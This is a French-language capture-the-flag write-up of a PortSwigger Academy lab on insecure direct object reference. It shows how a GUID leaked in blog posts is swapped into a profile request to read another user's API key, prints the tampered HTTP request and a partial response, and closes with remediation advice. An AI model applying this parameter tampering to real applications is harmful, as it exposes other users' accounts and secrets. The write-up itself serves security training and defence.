










# Lab: User ID controlled by request parameter, with unpredictable user IDs 

> **CTF :** PORTSWIGGER   

> **Catégorie :** Access control   

> **Difficulté :** APPRENTICE   

> **Points :** ✅  

> **Date :** 26/07/2026  

> **Statut :** ✅ Résolu 

---

## 📌 Description du Challenge

> *This lab has a horizontal privilege escalation vulnerability on the user account page, but identifies users with GUIDs.
To solve the lab, find the GUID for carlos, then submit his API key as the solution.
You can log in to your own account using the following credentials: wiener:peter*

---

## 🎯 Objectif

trouvez le GUID de carlos, puis soumettre sa clé API comme solution.
---

## 🔍 Reconnaissance

- L'application auditée se présente sous la forme d'une plateforme de blog permettant la consultation de plusieurs articles publiés. - 

**Observations :**
- Après authentification sur le compte utilisateur wiener, l'interface affiche une clé d'API (API Key) unique associée au profil. 


**Outils utilisés :**
- <!-- Burp Suite / nmap / curl / strings / file / ... -->

---

## 🧠 Hypothèse

- L'actualisation de la page du profil associée à l'interception du trafic HTTP révèle que l'utilisateur wiener est associé à un identifiant unique (paramètre id ou username) au sein des requêtes.


---

## ⚔️ Exploitation

### Étape 1 — [Action]
- La consultation des différents articles du blog permet d'identifier plusieurs auteurs distincts, à savoir l'administrateur, l'utilisateur standard wiener, ainsi que l'utilisateur Carlos.
  

-  L'interception des requêtes HTTP liées à la consultation des articles a révélé que la structure des données expose publiquement l'identifiant unique (paramètre id ou author_id) des auteurs. Cet identifiant s'avère identique à celui utilisé au sein du profil privé de l'utilisateur wiener. 



---

### Étape 2 — Trouver le GUID de Carlos

L'étape suivante consiste à inspecter la requête HTTP générée lors de la consultation d'un article publié par Carlos, afin d'extraire l'identifiant unique (UUID ou ID) qui lui est associé.  



- Interceptons les requêtes pour trouver le GUID de Carlos


```http
GET /blogs?userId=1c1ba860-6864-401f-8a8b-de261f4d00ff HTTP/2
```
---

### Étape 3 — Exploitation finale

- À présent, retournons sur notre compte utilisateur et actualisons la page, histoire d'intercepter la requête HTTP et de remplacer le GUID de wiener par celui de Carlos.
- L'envoi de la requête modifiée via le module Repeater confirme la vulnérabilité. Le serveur traite avec succès la demande, retournant un code de statut HTTP 200 OK ainsi que les données du profil de la victime (Carlos) dans le corps de la réponse.



**Payload utilisé :**
```http
GET /my-account?id=1c1ba860-6864-401f-8a8b-de261f4d00ff HTTP/2
Host: 0a780060033df4568023c6bb00460078.web-security-academy.net
Cookie: session=AXsi3BzvxmO3ty9AGk4XQhKOzCyjfk8h
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a780060033df4568023c6bb00460078.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


```

**Résultat :**
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3787

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>User ID controlled by request parameter, with unpredictable user IDs</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script src="/resources/labheader/js/labHeader.js"
```  
- Comme vous pouvez le constater, nous sommes connectés en tant que Carlos et nous avons sa clé d'API.




- Copions et soumettons sa clé d'API.



---

## 🚩 Flag



---

## 🛡️ Remédiation

Le problème fondamental de cette faille est que l'application valide l'identité de l'utilisateur uniquement au moment de la connexion, mais fait aveuglément confiance aux identifiants (GUID) envoyés dans les requêtes suivantes. Pour corriger cela :
1. Vérifier l'autorisation côté serveur (Impératif) : À chaque fois qu'un utilisateur demande à voir un profil (ex: via un paramètre id ou un GUID), le serveur doit vérifier que l'identifiant demandé correspond strictement à l'utilisateur actuellement connecté en session. Si l'ID demandé est différent de l'ID de la session active, le serveur doit rejeter la requête avec une erreur 403 Forbidden.  
2. Éviter les identifiants séquentiels ou prévisibles : Bien que l'utilisation de GUID (identifiants uniques complexes) complique la tâche d'un attaquant par rapport à des ID simples (comme 1, 2, 3), cela ne suffit pas si ces GUID fuient ailleurs (comme ici dans les publications du blog). Le serveur doit implémenter un contrôle d'accès rigoureux, indépendamment de la complexité de l'ID.  
3. Restreindre les données retournées par l'API : Les API publiques du blog ne devraient renvoyer que les données strictement nécessaires (le nom de l'auteur, la date). Les informations sensibles comme les GUID de compte privés ou les clés d'API ne doivent jamais être incluses dans les réponses HTTP destinées aux visiteurs publics.

---

## 💡 Points Clés à Retenir

Cette épreuve met en lumière des concepts clés de la sécurité des API :

1. L'authentification n'est pas l'autorisation : Être correctement connecté à l'application (authentifié en tant que wiener) ne donne pas le droit d'accéder aux ressources des autres (autorisation sur le compte de Carlos). L'application doit valider les droits d'accès à chaque niveau et pour chaque objet demandé.  
2. La corrélation d'informations par l'attaquant : Un attaquant combine souvent plusieurs faiblesses mineures pour réussir son attaque. Ici, la fuite publique des GUID dans les articles de blog (faiblesse de divulgation d'informations) a fourni la matière nécessaire pour exploiter le défaut de contrôle d'accès sur la page de profil.
---

## 📚 Références

- [PortSwigger — Lab: User ID controlled by request parameter, with unpredictable user IDs ](https://portswigger.net/web-security/topic)
- [OWASP — Vulnérabilité Associée](https://owasp.org/Top10/)


---

*Rédigé par : Malick Ramzy SOPODOU*
*PORTSWIGGER 🌍*
